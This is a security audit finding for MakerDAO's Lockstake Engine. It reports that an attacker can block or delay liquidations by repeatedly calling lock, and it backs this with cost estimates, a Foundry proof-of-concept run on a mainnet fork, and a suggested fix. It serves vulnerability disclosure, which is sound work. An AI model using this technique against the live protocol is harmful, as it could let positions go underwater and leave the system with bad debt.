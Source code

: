 Bitter Marmalade Iguana

Medium

# An attacker can prevent liquidation by calling `lock`

## Summary
The `chief` contract does not allow calling `free` in the same block that `lock` is called. When a VoteDelegate (VD) is selected, `chief.free` is called during liquidation. An attacker can call `LSE.lock` every block, or simply front-run liquidations, to avoid them.

## Vulnerability Detail

Liquidations will revert because `dog.bark` => `LSClipper.kick` => `LSE.onKick` => `LSE._selectVoteDelegate` => `VoteDelegateLike(prevVoteDelegate).free(wad);` => [`chief.free(wad);` ](https://github.com/sherlock-audit/2024-06-makerdao-endgame/blob/main/vote-delegate/src/VoteDelegate.sol#L98)will revert.

See [current chief](https://vscode.blockscan.com/ethereum/0x0a3f6849f78076aefaDf113F5BED87720274dDC0) lines 459 and 448. Note: GitHub has an outdated version.

The liquidator will also have to pay for reverting transactions, which may make liquidations unprofitable.

The cost of the attack is 135,767 gas. It’s $0.8 when gas costs 2 gwei and $3,000/Eth:
0.8 x 5 (blocks per minute) x 60 = $240/hour or $5,760/day.

The attacker may wish to delay the liquidation if they believe the collateral price will increase, avoiding the 15% fee (see onRemove). Delaying liquidation can be economically more profitable, especially for large positions, considering the constant attack cost that does not depend on position size.

If the price of the collateral decreases significantly during the attack, it can create significant bad debt for the system.

### Similar Issues
(Valid mediums)
- https://github.com/code-423n4/2024-02-wise-lending-findings/issues/237#issuecomment-2020890116
- https://github.com/code-423n4/2024-01-salty-findings/issues/312

## Impact
An attacker can indefinitely delay the liquidation for $240/hour or deny liquidations by front-running them. This can cause losses for the protocol, as positions can go underwater and create bad debt, depending on the collateral type used.

## Code Snippet
> PoC
1. Create `test/ALockstakeEngine.sol` in the root project directory.
<details><summary> test/ALockstakeEngine.sol</summary>

```solidity
// SPDX-License-Identifier: AGPL-3.0-or-later

pragma solidity ^0.8.21;

import "../dss-flappers/lib/dss-test/src//DssTest.sol";
import "../dss-flappers/lib/dss-test/lib/dss-interfaces/src/Interfaces.sol";
import { LockstakeDeploy } from "../lockstake/deploy/LockstakeDeploy.sol";
import { LockstakeInit, LockstakeConfig, LockstakeInstance } from "../lockstake/deploy/LockstakeInit.sol";
import { LockstakeMkr } from "../lockstake/src/LockstakeMkr.sol";
import { LockstakeEngine } from "../lockstake/src/LockstakeEngine.sol";
import { LockstakeClipper } from "../lockstake/src/LockstakeClipper.sol";
import { LockstakeUrn } from "../lockstake/src/LockstakeUrn.sol";
import { VoteDelegateFactoryMock, VoteDelegateMock } from "../lockstake/test/mocks/VoteDelegateMock.sol";
import { GemMock } from "../lockstake/test/mocks/GemMock.sol";
import { NstMock } from "../lockstake/test/mocks/NstMock.sol";
import { NstJoinMock } from "../lockstake/test/mocks/NstJoinMock.sol";
import { StakingRewardsMock } from "../lockstake/test/mocks/StakingRewardsMock.sol";
import { MkrNgtMock } from "../lockstake/test/mocks/MkrNgtMock.sol";

import {VoteDelegateFactory} from "../vote-delegate/src/VoteDelegateFactory.sol";
import {VoteDelegate} from "../vote-delegate/src/VoteDelegate.sol";


contract DSChiefLike  {
    DSTokenAbstract public IOU;
    DSTokenAbstract public GOV;
    mapping(address=>uint256) public deposits;
    function free(uint wad) public {}
    function lock(uint wad) public {}
}

interface CalcFabLike {
    function newLinearDecrease(address) external returns (address);
}

interface LineMomLike {
    function ilks(bytes32) external view returns (uint256);
}

interface MkrAuthorityLike {
    function rely(address) external;
}

contract ALockstakeEngineTest is DssTest {
    using stdStorage for StdStorage;

    DssInstance             dss;
    address                 pauseProxy;
    DSTokenAbstract         mkr;
    LockstakeMkr            lsmkr;
    LockstakeEngine         engine;
    LockstakeClipper        clip;
    address                 calc;
    MedianAbstract          pip;
    VoteDelegateFactory     voteDelegateFactory;
    NstMock                 nst;
    NstJoinMock             nstJoin;
    GemMock                 rTok;
    StakingRewardsMock      farm;
    StakingRewardsMock      farm2;
    MkrNgtMock              mkrNgt;
    GemMock                 ngt;
    bytes32                 ilk = "LSE";
    address                 voter;
    address                 voteDelegate;

    LockstakeConfig     cfg;

    uint256             prevLine;
    
    address constant LOG = 0xdA0Ab1e0017DEbCd72Be8599041a2aa3bA7e740F;

    event AddFarm(address farm);
    event DelFarm(address farm);
    event Open(address indexed owner, uint256 indexed index, address urn);
    event Hope(address indexed urn, address indexed usr);
    event Nope(address indexed urn, address indexed usr);
    event SelectVoteDelegate(address indexed urn, address indexed voteDelegate_);
    event SelectFarm(address indexed urn, address farm, uint16 ref);
    event Lock(address indexed urn, uint256 wad, uint16 ref);
    event LockNgt(address indexed urn, uint256 ngtWad, uint16 ref);
    event Free(address indexed urn, address indexed to, uint256 wad, uint256 freed);
    event FreeNgt(address indexed urn, address indexed to, uint256 ngtWad, uint256 ngtFreed);
    event FreeNoFee(address indexed urn, address indexed to, uint256 wad);
    event Draw(address indexed urn, address indexed to, uint256 wad);
    event Wipe(address indexed urn, uint256 wad);
    event GetReward(address indexed urn, address indexed farm, address indexed to, uint256 amt);
    event OnKick(address indexed urn, uint256 wad);
    event OnTake(address indexed urn, address indexed who, uint256 wad);
    event OnRemove(address indexed urn, uint256 sold, uint256 burn, uint256 refund);

    function _divup(uint256 x, uint256 y) internal pure returns (uint256 z) {
        // Note: _divup(0,0) will return 0 differing from natural solidity division
        unchecked {
            z = x != 0 ? ((x - 1) / y) + 1 : 0;
        }
    }

    // Real contracts for mainnet
    address chief = 0x0a3f6849f78076aefaDf113F5BED87720274dDC0;
    address polling = 0xD3A9FE267852281a1e6307a1C37CDfD76d39b133;
    uint chiefBalanceBeforeTests;

    function setUp() public virtual {
        vm.createSelectFork(vm.envString("ETH_RPC_URL"), 20422954);

        dss = MCD.loadFromChainlog(LOG);

        pauseProxy = dss.chainlog.getAddress("MCD_PAUSE_PROXY");
        pip = MedianAbstract(dss.chainlog.getAddress("PIP_MKR"));
        mkr = DSTokenAbstract(dss.chainlog.getAddress("MCD_GOV"));
        nst = new NstMock();
        nstJoin = new NstJoinMock(address(dss.vat), address(nst));
        rTok = new GemMock(0);
        ngt = new GemMock(0);
        mkrNgt = new MkrNgtMock(address(mkr), address(ngt), 24_000);
        vm.startPrank(pauseProxy);
        MkrAuthorityLike(mkr.authority()).rely(address(mkrNgt));
        vm.stopPrank();

        // voteDelegateFactory = new VoteDelegateFactoryMock(address(mkr));
        voteDelegateFactory = new VoteDelegateFactory(
            chief, polling
        );
        voter = address(123);
        vm.prank(voter); voteDelegate = voteDelegateFactory.create();

        vm.prank(pauseProxy); pip.kiss(address(this));
        vm.store(address(pip), bytes32(uint256(1)), bytes32(uint256(1_500 * 10**18)));

        LockstakeInstance memory instance = LockstakeDeploy.deployLockstake(
            address(this),
            pauseProxy,
            address(voteDelegateFactory),
            address(nstJoin),
            ilk,
            15 * WAD / 100,
            address(mkrNgt),
            bytes4(abi.encodeWithSignature("newLinearDecrease(address)"))
        );

        engine = LockstakeEngine(instance.engine);
        clip = LockstakeClipper(instance.clipper);
        calc = instance.clipperCalc;
        lsmkr = LockstakeMkr(instance.lsmkr);
        farm = new StakingRewardsMock(address(rTok), address(lsmkr));
        farm2 = new StakingRewardsMock(address(rTok), address(lsmkr));

        address[] memory farms = new address[](2);
        farms[0] = address(farm);
        farms[1] = address(farm2);

        cfg = LockstakeConfig({
            ilk: ilk,
            voteDelegateFactory: address(voteDelegateFactory),
            nstJoin: address(nstJoin),
            nst: address(nstJoin.nst()),
            mkr: address(mkr),
            mkrNgt: address(mkrNgt),
            ngt: address(ngt),
            farms: farms,
            fee: 15 * WAD / 100,
            maxLine: 10_000_000 * 10**45,
            gap: 1_000_000 * 10**45,
            ttl: 1 days,
            dust: 50,
            duty: 100000001 * 10**27 / 100000000,
            mat: 3 * 10**27,
            buf: 1.25 * 10**27, // 25% Initial price buffer
            tail: 3600, // 1 hour before reset
            cusp: 0.2 * 10**27, // 80% drop before reset
            chip: 2 * WAD / 100,
            tip: 3,
            stopped: 0,
            chop: 1 ether,
            hole: 10_000 * 10**45,
            tau: 100,
            cut: 0,
            step: 0,
            lineMom: true,
            tolerance: 0.5 * 10**27,
            name: "LOCKSTAKE",
            symbol: "LMKR"
        });

        prevLine = dss.vat.Line();

        vm.startPrank(pauseProxy);
        LockstakeInit.initLockstake(dss, instance, cfg);
        vm.stopPrank();

        deal(address(mkr), address(this), 100_000 * 10**18, true);
        deal(address(ngt), address(this), 100_000 * 24_000 * 10**18, true);

        // Add some existing DAI assigned to nstJoin to avoid a particular error
        stdstore.target(address(dss.vat)).sig("dai(address)").with_key(address(nstJoin)).depth(0).checked_write(100_000 * RAD);

        chiefBalanceBeforeTests = mkr.balanceOf(chief);
    }

}
```
</details>

It is based on the `LockstakeEngine.t.sol` `setUp` function:
- Fixed imports
- Added `block.number` for caching RPC calls
- Added `chief` and `polling` contracts from mainnet
- Added the real `VoteDelegateFactory`

To see the diff, you can run `git diff`. Note: all other functions except `setUp` are removed from the file and the diff.

<details> <summary>git diff --no-index  lockstake/test/LockstakeEngine.t.sol test/ALockstakeEngine.sol</summary> 
	
```diff
diff --git a/lockstake/test/LockstakeEngine.t.sol b/test/ALockstakeEngine.sol
index 83fa75d..ba4f381 100644
--- a/lockstake/test/LockstakeEngine.t.sol
+++ b/test/ALockstakeEngine.sol
@@ -2,20 +2,32 @@
 
 pragma solidity ^0.8.21;
 
-import "dss-test/DssTest.sol";
-import "dss-interfaces/Interfaces.sol";
-import { LockstakeDeploy } from "deploy/LockstakeDeploy.sol";
-import { LockstakeInit, LockstakeConfig, LockstakeInstance } from "deploy/LockstakeInit.sol";
-import { LockstakeMkr } from "src/LockstakeMkr.sol";
-import { LockstakeEngine } from "src/LockstakeEngine.sol";
-import { LockstakeClipper } from "src/LockstakeClipper.sol";
-import { LockstakeUrn } from "src/LockstakeUrn.sol";
-import { VoteDelegateFactoryMock, VoteDelegateMock } from "test/mocks/VoteDelegateMock.sol";
-import { GemMock } from "test/mocks/GemMock.sol";
-import { NstMock } from "test/mocks/NstMock.sol";
-import { NstJoinMock } from "test/mocks/NstJoinMock.sol";
-import { StakingRewardsMock } from "test/mocks/StakingRewardsMock.sol";
-import { MkrNgtMock } from "test/mocks/MkrNgtMock.sol";
+import "../dss-flappers/lib/dss-test/src//DssTest.sol";
+import "../dss-flappers/lib/dss-test/lib/dss-interfaces/src/Interfaces.sol";
+import { LockstakeDeploy } from "../lockstake/deploy/LockstakeDeploy.sol";
+import { LockstakeInit, LockstakeConfig, LockstakeInstance } from "../lockstake/deploy/LockstakeInit.sol";
+import { LockstakeMkr } from "../lockstake/src/LockstakeMkr.sol";
+import { LockstakeEngine } from "../lockstake/src/LockstakeEngine.sol";
+import { LockstakeClipper } from "../lockstake/src/LockstakeClipper.sol";
+import { LockstakeUrn } from "../lockstake/src/LockstakeUrn.sol";
+import { VoteDelegateFactoryMock, VoteDelegateMock } from "../lockstake/test/mocks/VoteDelegateMock.sol";
+import { GemMock } from "../lockstake/test/mocks/GemMock.sol";
+import { NstMock } from "../lockstake/test/mocks/NstMock.sol";
+import { NstJoinMock } from "../lockstake/test/mocks/NstJoinMock.sol";
+import { StakingRewardsMock } from "../lockstake/test/mocks/StakingRewardsMock.sol";
+import { MkrNgtMock } from "../lockstake/test/mocks/MkrNgtMock.sol";
+
+import {VoteDelegateFactory} from "../vote-delegate/src/VoteDelegateFactory.sol";
+import {VoteDelegate} from "../vote-delegate/src/VoteDelegate.sol";
+
+
+contract DSChiefLike  {
+    DSTokenAbstract public IOU;
+    DSTokenAbstract public GOV;
+    mapping(address=>uint256) public deposits;
+    function free(uint wad) public {}
+    function lock(uint wad) public {}
+}
 
 interface CalcFabLike {
     function newLinearDecrease(address) external returns (address);
@@ -29,7 +41,7 @@ interface MkrAuthorityLike {
     function rely(address) external;
 }
 
-contract LockstakeEngineTest is DssTest {
+contract ALockstakeEngineTest is DssTest {
     using stdStorage for StdStorage;
 
     DssInstance             dss;
@@ -40,7 +52,7 @@ contract LockstakeEngineTest is DssTest {
     LockstakeClipper        clip;
     address                 calc;
     MedianAbstract          pip;
-    VoteDelegateFactoryMock voteDelegateFactory;
+    VoteDelegateFactory     voteDelegateFactory;
     NstMock                 nst;
     NstJoinMock             nstJoin;
     GemMock                 rTok;
@@ -84,8 +96,13 @@ contract LockstakeEngineTest is DssTest {
         }
     }
 
-    function setUp() public {
-        vm.createSelectFork(vm.envString("ETH_RPC_URL"));
+    // Real contracts for mainnet
+    address chief = 0x0a3f6849f78076aefaDf113F5BED87720274dDC0;
+    address polling = 0xD3A9FE267852281a1e6307a1C37CDfD76d39b133;
+    uint chiefBalanceBeforeTests;
+
+    function setUp() public virtual {
+        vm.createSelectFork(vm.envString("ETH_RPC_URL"), 20422954);
 
         dss = MCD.loadFromChainlog(LOG);
 
@@ -101,7 +118,10 @@ contract LockstakeEngineTest is DssTest {
         MkrAuthorityLike(mkr.authority()).rely(address(mkrNgt));
         vm.stopPrank();
 
-        voteDelegateFactory = new VoteDelegateFactoryMock(address(mkr));
+        // voteDelegateFactory = new VoteDelegateFactoryMock(address(mkr));
+        voteDelegateFactory = new VoteDelegateFactory(
+            chief, polling
+        );
         voter = address(123);
         vm.prank(voter); voteDelegate = voteDelegateFactory.create();
```
	
</details>

2. Add the following `remappings.txt` to the root project directory.
```txt
dss-interfaces/=dss-flappers/lib/dss-test/lib/dss-interfaces/src/
dss-test/=dss-flappers/lib/dss-test/src/
forge-std/=dss-flappers/lib/dss-test/lib/forge-std/src/
@openzeppelin/contracts/=sdai/lib/openzeppelin-contracts-upgradeable/lib/openzeppelin-contracts/contracts/
@openzeppelin/contracts-upgradeable/=sdai/lib/openzeppelin-contracts-upgradeable/contracts/
solidity-stringutils=nst/lib/openzeppelin-foundry-upgrades/lib/solidity-stringutils/
lockstake:src/=lockstake/src/
vote-delegate:src/=vote-delegate/src/
sdai:src/=sdai/src/
```


 3. Run `forge test  --match-path test/ALSEH7.sol` from root project directory
```solidity
// SPDX-License-Identifier: AGPL-3.0-or-later

pragma solidity ^0.8.21;

import "./ALockstakeEngine.sol";

contract ALSEH7 is ALockstakeEngineTest {
    function testLiquidate() external {
        deal(address(mkr), address(this), 100_000 * 10**18, true);
        address urn = engine.open(0);
        mkr.approve(address(engine), 100_000 * 10**18);
        engine.lock(urn, 50_000 * 10**18, 5);
        engine.draw(urn, address(this), 50_000 * 10**18);
        engine.selectVoteDelegate(urn, voteDelegate);

        uint gasBefore = gasleft();
        engine.lock(urn, 1, 0);
        console.log(gasBefore - gasleft());

        // Same block
        _testLiquidateUsingDog(address(this), "", true);

        vm.roll(block.timestamp + 1);
        _testLiquidateUsingDog(address(this), "", false);
    }

    function _testLiquidateUsingDog(address user, string memory revertMsg, bool expectRevert) internal {
        address urn = engine.getUrn(user, 0);

        // Force the urn to be unsafe
        _changeMkrPrice(0.05 * 10**18);

        if (expectRevert) vm.expectRevert(bytes(revertMsg));
        dss.dog.bark(ilk, urn, makeAddr("kpr"));
    }

    function _changeMkrPrice(uint newPrice) internal {
        vm.store(address(pip), bytes32(uint256(1)), bytes32(uint256(newPrice)));
        dss.spotter.poke(ilk);
    }
}
```

## Tool used

Manual Review

## Recommendation
Consider disallowing `LSE.lock` if the position is still liquidatable after the `lock`.
